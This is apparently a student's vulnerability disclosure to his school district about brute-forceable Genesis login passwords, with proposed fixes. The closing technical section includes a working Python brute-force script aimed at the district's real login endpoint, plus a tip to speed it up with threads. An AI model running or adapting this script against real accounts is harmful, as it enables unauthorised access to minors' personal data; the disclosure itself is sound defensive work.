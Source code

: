 ## 🧠 Intro
Hello, my name is Connor S, and I am an 8th grader at William Annin. I am writing to express a concern I have with district password security for the students, as well as to offer some possible solutions to fix this problem.

The [Genesis](https://www.genesisedu.com/) login system has a vulnerability that allows many possible passwords to be tried very quickly. This could allow someone to fairly easily guess passwords and gain access to student accounts in a matter of minutes. With access to a student's password, a large amount of personal information is at risk.

## ❓ Why this is a problem
How is this bad? Well with these passwords being used for both Genesis accounts and student Google accounts lots of student's personal information is accessible. This includes the following (in no particular order)
- Full Name
- Birth Date
- Age
- State ID
- School name
- Grade
- Attendance
- Grades
- Classes
- Teacher names
- Report Cards
- Forms
- Calendar Events
- Class Zoom Links
- Class Times
- Student Assignments
- Student Files
- Student Emails (of all students)
- YouTube Watch & Search history
- Google Search History
- Google Keep stuff
- Chrome Bookmarks
- Chrome Saved Passwords
- Chrome autofill form data
- Chrome currently open tabs
- Chrome History
- Google Photos
- Google Tasks
- Any Phones / Mobile devices signed in with school Google
- Device Details of devices signed in to school Google account
- And more

And this is just the information I found with just a few minutes of searching through my account. I hope after reading that you are very concerned about the amount of personal information that is basically public (to anyone who cares enough to put a small amount of effort and time into it). Now not only does anybody who cracks someone else's passwords have access to read the information contained in the categories mentioned above, but they can also edit/modify/send information/emails as someone else.

## ✨ Fixes
Now that this problem is known, it wouldn't be very helpful if I didn't suggest some fixes! So here are two simple options to think about.

### 📀 Option 1

One fix for this problem is to use more secure passwords for accounts. Currently, a large amount (not all) of student passwords appear to be formatted like this ⇒ `30####` where the `#`s are any number. This means that for many student passwords only four digits need to be cracked. This is bad because it lowers the time to crack passwords. I have been able to crack my own password with some relatively simple [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) in only a few minutes. This means all student passwords could be cracked in a few weeks or less for over 7000 accounts.

I think that at a certain grade (I would say 6th grade) students could learn how to then make their own secure passwords. Secure passwords have 10 characters made up of letters, numbers, and special characters. These passwords should not be able to be seen by teachers or other staff but could be reset if needed. This would be good in terms of security, but it will also teach students the important skill of making secure passwords.

### 💿 Option 2

Another way to fix this problem is by making some modifications to the Genesis login system. This is something that would require working with the Genesis 'team' to fix but would be *ok* if option 1 is not viable.

Currently, Genesis has no rate limit or CAPTCHA. This means that many automated password attempts can be made within very quick succession. For example, the program mentioned above was able to make over 30 requests per second. This allows simple brute force attacks (such as this one) to work. Nowadays fixing this is extremely easy with the use of external services like reCAPTCHA. 

### 🌠 Fixes Conclusion
There are of course more options than these two, but I think this is a good start and will hopefully get the district to think more about the security aspect of the services used. Apart, these solutions are ok but if both are used together the school and its students will be made more secure than ever.

## 🛑 Conclusion
Personal information has become an incredibly valuable asset for advertisers, hackers, etc. it is now more important than ever to properly secure it. At the moment I believe the district is **not** doing enough to secure this information, which places large amounts of personal protected student data at risk. I believe that it is the district's responsibility to securely manage student's data on required sites and services (like Google Classroom and Genesis).

By reading this our district is one step closer to better security! As I hope you can see from reading this, I really care about security and want to improve the school's technology for not only myself but all other students. I will also be happy to discuss my thoughts and findings in more detail if It would be helpful.

Sincerely, Connor Slade

connorslade@bernardsboe.com

## 📅 Technical Details (If you are interested)
Here I will be going over some specific technical details of this vulnerability. View the advanced version's [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) and see it in action [here](https://asciinema.org/a/408164). This vulnerability can be exploited manually if you have a lot of time but can be sped up immensely with a bit of code.

At its most basic my script just sends POST requests to `https://parents.genesisedu.com/bernardsboe/sis/j_security_check` with the form data `{"j_password": <PASSWORD>, "j_username": <EMAIL>}` where `<PASSWORD>` is the password to try (ex: 307652 or 300936) and `<EMAIL>` is the email of the account to crack (ex: connorslade@bernardsboe.com). I found these details by looking at the site's network traffic when logging into my account.

Below you can see a basic python script that will (slowly) crack a password for the supplied email account. Code comments are included to help show what each line does.

```python
import requests # Import needed module

url = 'https://parents.genesisedu.com/bernardsboe/sis/j_security_check' # define api uri
email = '' # Put student Email here (ex: example@bernardsboe.com)
print(f'[*] Starting Crack for {email}') # Print email to crack

for i in range(9999): # Loop through possible passwords
    toTry = f'30{str(i).zfill(4)}' # Create password to try (ex: 300736)
    print(f'[*] Trying [{toTry}]') # print what password is being tried
    try:
        ses = requests.Session()
        ses.max_redirects = 2
        # put the username and password into a object ready to be send to the api
        dataToSend = {"j_password": toTry, "j_username": email}
        # Send data to Genesis api as if you clicked login on the login form
        data = ses.post(url, timeout=0.5, data=dataToSend)
        # try the next possible password if server timeouts or has too many redirects
    except (requests.exceptions.TooManyRedirects, requests.exceptions.Timeout):
        continue
    if data.status_code != 200:
        continue
    print(f'\n[*] Complete: {toTry}') # if passwords is correct print it
    break # Exit the loop when the password has been found
```
Watch this script run [here](https://asciinema.org/a/408162). Now this works but is still very slow, however, it does a good job showing what is going on without optimizations. To speed this up multi-threading can be used to attempt more passwords in the same amount of time.